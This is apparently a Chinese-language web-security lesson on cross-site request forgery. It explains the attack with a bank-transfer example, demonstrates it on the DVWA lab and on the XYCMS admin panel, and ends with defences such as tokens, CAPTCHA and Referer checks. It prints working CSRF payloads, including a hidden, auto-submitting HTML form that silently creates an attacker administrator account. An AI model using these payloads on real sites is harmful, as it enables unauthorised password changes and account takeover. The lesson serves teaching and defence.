





# 课程P1：浅谈CSRF漏洞 🛡️




在本节课中，我们将学习跨站请求伪造（CSRF）漏洞的基本概念、危害、利用方式以及防御方法。课程内容分为三个主要部分：首先介绍CSRF漏洞的危害，然后通过两个实例讲解其挖掘与利用过程，最后探讨有效的防御策略。



## 第一部分：CSRF漏洞的危害 ⚠️

跨站请求伪造（CSRF），英文全称 Cross-Site Request Forgery，也被称为 XSRF。该漏洞允许攻击者盗用用户的身份，以其名义发送恶意请求。

CSRF漏洞的危害包括：以用户名义发送邮件或消息、盗取账号、进行商品购买、虚拟货币转账，甚至导致个人隐私泄露及财产损失。该漏洞在OWASP Top 10中常位列前茅，与XSS和SQL注入并列当前Web漏洞的前三位。

为了更直观地理解其危害，我们来看一个具体案例。

假设受害者鲍勃在银行有一笔存款。通过银行网站发送请求，可以使鲍勃将100万存款转到鲍勃奥的账户。该请求的URL具有规律性，例如：
```
http://bank.com/transfer?from=Bob&to=BobO&amount=1000000
```
黑客美劳瑞发现了这个规律，并构造了一个恶意请求，意图将100万转给自己。但由于请求来自美劳瑞而非鲍勃，它无法通过银行的安全认证。

此时，黑客美劳瑞采用CSRF攻击方式。他创建一个网站，在其中嵌入恶意代码（即上述转账请求），并通过广告诱使鲍勃访问该网站。当鲍勃访问时，恶意请求会从鲍勃的浏览器发往银行，并附带鲍勃的cookie信息，从而使该请求得到银行的响应并执行。




## 第二部分：CSRF漏洞的挖掘与利用 🛠️


上一节我们介绍了CSRF的基本概念与危害，本节中我们将通过两个实例来具体看看如何挖掘和利用CSRF漏洞。

### 实例一：利用DVWA演示CSRF

DVWA（Damn Vulnerable Web Application）是一个用于安全学习的漏洞测试平台。我们首先将其安全级别设置为“Low”。

假设攻击者发现管理员密码修改功能存在CSRF漏洞。其请求URL具有规律性，例如修改密码的请求可能如下所示：
```
http://target.com/dvwa/vulnerabilities/csrf/?password_new=admin888&password_conf=admin888&Change=Change#
```
攻击者可以构造一个包含此请求的恶意网页。当已登录的管理员访问该网页时，其密码将在不知情的情况下被修改。

以下是恶意网页的示例代码：
```html

```
这段代码通过一个不可见的图片标签发起请求。管理员访问后，密码即被修改为 `admin888`。

### 实例二：利用XYCMS演示CSRF

XYCMS是一套内容管理系统。我们在其管理员添加功能中发现CSRF漏洞。

通过浏览器开发者工具（F12）审查“添加管理员”表单元素，我们可以找到表单提交的真实地址与参数。攻击者可以复制此表单代码，并创建一个恶意页面。

初始的恶意表单代码可能如下：
```html
<form action="http://target.com/admin/add_admin.php" method="POST">
    <input type="text" name="username" value="attacker">
    <input type="password" name="password" value="hacked123">
    <input type="password" name="repassword" value="hacked123">
    <input type="submit" value="Submit">
</form>
```
但这样需要用户点击提交按钮。为了提高攻击的隐蔽性和自动化程度，我们可以使用JavaScript代码在页面加载时自动提交表单。

以下是改进后的自动提交代码示例：
```html
<body onload="document.forms[0].submit()">
    <form action="http://target.com/admin/add_admin.php" method="POST" style="display:none;">
        <input type="text" name="username" value="attacker">
        <input type="password" name="password" value="hacked123">
        <input type="password" name="repassword" value="hacked123">
        <input type="submit" value="Submit">
    </form>
</body>
```
这段代码的含义是：页面加载后，立即执行JavaScript代码，模拟点击提交按钮的动作。同时，通过CSS将表单隐藏（`style="display:none;"`），使受害者完全看不到任何操作界面，从而极大地提高了攻击的成功率与隐蔽性。

## 第三部分：CSRF漏洞的防御 🛡️

前面两节我们探讨了CSRF的攻击原理与实例，本节我们将重点学习如何防御CSRF漏洞。





以下是四种主流的CSRF防御方法：

**1. 验证码（CAPTCHA）**
在执行敏感操作（如转账、修改密码）时，要求用户输入随机生成的验证码。由于CSRF攻击是在用户无意识状态下发起的，强制交互能有效阻断此类攻击。

**2. 检查HTTP Referer字段**
服务器可以检查请求头中的Referer字段，判断该请求是否来自合法的源站点。例如，银行转账请求应来自银行自身的页面。但需注意，Referer值可能被伪造。

**3. 使用Token（令牌）**
这是目前公认最有效的防御方法。服务器在用户会话中生成一个随机、不可预测的Token，并将其嵌入表单或URL参数中。服务器在处理请求时验证该Token的有效性。攻击者无法获取或猜解此Token，因此无法构造合法的请求。
例如，表单中会包含一个隐藏字段：
```html
<input type="hidden" name="csrf_token" value="随机生成的Token字符串">
```

**4. 限制Session生命周期**
设置较短的会话（Session）过期时间，例如用户登录后15分钟无操作即需重新登录。这样即使CSRF攻击请求发出，也可能因会话过期而失效。

综合来看，**使用Token** 并结合 **验证码** 进行关键操作，是防御CSRF漏洞的最佳实践组合。

## 总结 📚

本节课我们一起学习了CSRF漏洞。我们首先了解了CSRF（跨站请求伪造）的概念及其严重的危害。接着，通过DVWA和XYCMS两个实例，我们逐步分析了如何发现并利用CSRF漏洞，包括构造恶意请求和利用JavaScript实现自动化攻击。最后，我们探讨了四种有效的防御策略：验证码、检查Referer、使用Token以及限制Session生命周期，其中使用Token被推荐为最核心的防御手段。


理解CSRF的原理与防御，对于构建安全的Web应用至关重要。